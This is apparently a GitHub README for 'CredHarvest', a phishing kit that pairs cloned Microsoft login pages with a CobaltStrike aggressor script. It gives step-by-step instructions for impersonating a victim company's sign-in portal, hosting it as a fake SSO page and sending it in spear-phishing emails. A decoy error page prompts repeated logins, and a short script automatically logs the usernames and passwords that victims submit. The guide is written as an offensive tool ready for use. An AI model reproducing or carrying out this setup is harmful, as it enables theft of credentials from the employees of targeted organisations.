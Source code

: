 # CredHarvest
## Description
Setup a credential harvesting campaign in about ~5 minutes. Using this technique usually garners ~5%-15% exploitation rates. This package includes 2 elements: a set of (almost) ready to go credential harvesting html documents and a credential importer aggressor script for CobaltStrike.
## Credential Harvesting Via POST Requests
To set up the HTML documents, just a few images and text are needed. A good first step is to go office.com > login. For username enter ‘a@<victim domain>’. Often that will take you to a company portal where you can pull images and text to add legitimacy.

As a tradecraft note, CobaltStrike does not properly host CSS files. Rather than pulling these externally or hosting elsewhere on the Team Server, they have been embedded for simplicity. It is unusual but will not set off any alerts. 

SignIn.html is smart enough to give an error if users do not give a domain username (at least x@) or if they do not give a password. SignIn.html can be renamed to anything, only 503_Error.html is hardcoded.

<b>SignIn.hmtl</b>
Line 134: \<style>.illustrationClass {background-image:url('https://LINKTOCOMPANYBACKGROUND');}
#Usually find a background image on the login portal, main website, or OSINT. This image scales with the window size, so try resizing the browser window a few times to make sure it’s somewhat universal.

Line 543: \<img class="logoImage" src="https://LINKTOLOGOIMAGE" alt="COMPANY NAME">
#Usually find a logo image on their main website. Also change company name to the organization.

Lines 553 and 578: …();" action="503_Error.html"> and \<form id="options" method="get" action="503_Error.html">
	
#The second page is hard coded to be '503_Error.html.' If you want to change that, update in these two locations. <b>Be aware that you will need to host the second HTML as this name and change a parameter in the aggressor script.</b>

Line 593: Only authorized users of COMPANYNAME may log on. The following…
#Some fluff to add legitimacy. If you find a login portal, it may be a good idea to change to their verbiage.

<b>503_Error.html</b>
Line 18: \<style>.illustrationClass {background-image:url('https://LINKTOCOMPANYBACKGROUND');} 
#Match to the background image from SignIn.html line 134

Line 427: \<img class="logoImage" src="https://LINKTOCOMPANYLOGO" alt="COMPANYNAME">
#Match to the logo image from SignIn.html line 543

Line 440: This resource is currently unavailable. Please try again later or contact your administrator…
#Generic error message. Convincing enough that users often try to log in multiple times throughout the day. Feel free to change.

The two documents should be hosted together in CobaltStrike using Attacks > Web Drive-by > Host File. A good tactic is to present them as some sort of single sign on, so for URI something like /content/partners/<victim org name>/sso/SignIn.html and /content/partners/<victim org name>/sso/503_Error.html respectively. Make the local host your domain, port 443, and enable SSL.
	
In spear phishing, attach the link to SignIn.html as %URL%. Users entering their credentials will post to the 503_Error.html page (captured by Team Server) and receive the benign 503_Error.html page.
	
<b>Automatically Log Credentials</b>
By default, CobaltStrike is not great for logging web data. CS web logs only retain the request, not the data. Particularly in the first 30 minutes of campaigns against large target lists, the web log console is going to be flying. Trying to copy and paste will be very challenging. Luckily automating parsed credentials for storage is possible.
	
Create a file named CredHarvest.cna and input the following text:
```cna
on web_hit {
	if (($1 eq "POST") && ("503_Error.html" isin $2)) {
	credential_add("$8['UserName']", "$8['Password']", "", "phishing", "$3");
	}
}
```
This script makes it so every time you get a POST request, and the URI includes 503_Error.html, CobaltStrike will parse the POST data and create a new credential entry. If for whatever reason you changed the file name of 503_Error.html, just update to match in this aggressor script.
	
Open the script console in CobaltStrike (View > Script Console)
	
Import the aggressor script using: `load <path to CredHarvest.cna>`

It should confirm the script was loaded, you can check using the ‘ls’ command. Should see (at least) default.cna and CredHarvest.cna.

CobaltStrike is smart enough to not make duplicates of the same record if the username/pw/host are identical, it will only update the time added.

<b>Setup</b>
Page out of the box
![b1b83507e43f6e0e5e17cb289276969c.png](../../_resources/b1b83507e43f6e0e5e17cb289276969c.png)
Page with images and text
![5bcce1f3a8a9bf113ddae5eed5e84c9a.png](../../_resources/5bcce1f3a8a9bf113ddae5eed5e84c9a.png)

503_Error.html with updated references
![d1e1642ec25a83806f39a288054828e1.png](../../_resources/d1e1642ec25a83806f39a288054828e1.png)

Hosted Files
![f69d57fb467a4bee65ba7e08527e7807.png](../../_resources/f69d57fb467a4bee65ba7e08527e7807.png)

Loaded Aggressor Script
![f238bba7f90fb8fdeacf7bea3204ad54.png](../../_resources/f238bba7f90fb8fdeacf7bea3204ad54.png)

<b>Proof of Concept</b>
User being phished
![0093cd38258149d16a6a7f69f91d71b0.png](../../_resources/0093cd38258149d16a6a7f69f91d71b0.png)
	
Result
![457f6ab5e59d73a0e8aa8d4f9d197e1c.png](../../_resources/457f6ab5e59d73a0e8aa8d4f9d197e1c.png)

Observed in Team Server
![8c0d32814ba11cdbd5723aaf4c3507ad.png](../../_resources/8c0d32814ba11cdbd5723aaf4c3507ad.png)

Auto-creds
![bb77479629fe2bfad3c12ead4c476284.png](../../_resources/bb77479629fe2bfad3c12ead4c476284.png)